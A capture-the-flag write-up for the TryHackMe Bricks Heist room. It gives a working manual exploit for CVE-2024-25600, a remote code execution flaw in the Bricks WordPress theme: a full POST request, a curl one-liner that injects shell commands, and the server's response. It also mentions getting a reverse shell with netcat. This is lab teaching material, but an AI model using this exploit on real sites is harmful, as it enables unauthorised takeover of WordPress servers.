 # TryHack3M: Bricks Heist

https://tryhackme.com/r/room/tryhack3mbricksheist

Part of the 3mil challenge, rated Easy

This walkthrough won't cover the whole room, just the first portion where you are exploiting a CVE. I wanted to show how to do it without python.

The CVE is CVE-2024-25600, an unauthenticated remote code execution vuln in the bricks wordpress theme, pretty nasty stuff. There is an excellent public exploit for this here, written in Python: https://github.com/Chocapikk/CVE-2024-25600

I personally hate python because of its dependency hell nonsense. Here in particular as I was using the THM attack box which doesn't have python 3.10+ required for the above, I couldn't just clone and use the exploit.

However! It is trivial to exploit this vulnerability by hand! There are only two steps:

1. First, get the nonce for bricks. This is found in a block of json on the homepage of the bricks site:

```
<script id="bricks-scripts-js-extra">
var bricksData = ...,"nonce":"2ce88d6cd2",...
</script>****
```

2. Second, make a post request like so:

```
`POST /wp-json/bricks/v1/render_element HTTP/2
Host: bricks.thm
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Content-Type: application/json
Content-Length: 154

{"postId": 1,"nonce": "2ce88d6cd2","element": {"name": "code","settings": {"executeCode": "true","code": "<?php throw new Exception(`pwd` . 'END'); ?>"}}}
```

Note the `pwd` surrounded by backticks, which is where the command is injected. This could be done with Burp, or even just using curl e.g.: 

```
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: bricks.thm' -H $'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' -H $'Content-Type: application/json' -H $'Content-Length: 154' \
    --data-binary $'{\"postId\": 1,\"nonce\": \"2ce88d6cd2\",\"element\": {\"name\": \"code\",\"settings\": {\"executeCode\": \"true\",\"code\": \"<?php throw new Exception(`pwd` . \'END\'); ?>\"}}}' \
    $'https://bricks.thm/wp-json/bricks/v1/render_element'
```

The result will be something like:

```
HTTP/2 200 OK
X-Robots-Tag: noindex
Link: <https://bricks.thm/wp-json/>; rel="https://api.w.org/"
X-Content-Type-Options: nosniff
Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages, Link
Access-Control-Allow-Headers: Authorization, X-WP-Nonce, Content-Disposition, Content-MD5, Content-Type
Allow: POST
Content-Length: 56
Content-Type: application/json; charset=UTF-8
Date: Sun, 05 May 2024 08:45:42 GMT
Server: Apache

{"data":{"html":"Exception: \/data\/www\/default\nEND"}}
```

Easy peasy lemon squezy. The box has nc.openbsd on it so I just shoved a nc fifo payload to get a rev shell.

The rest of the room is pretty straight forward, so no need to go through it. Just a note later there is a log file with a long 'ID' in it - this is actually a hex string and after being decoded a bit will reveal a repeated bitcoin address - that tripped me up. Good luck!
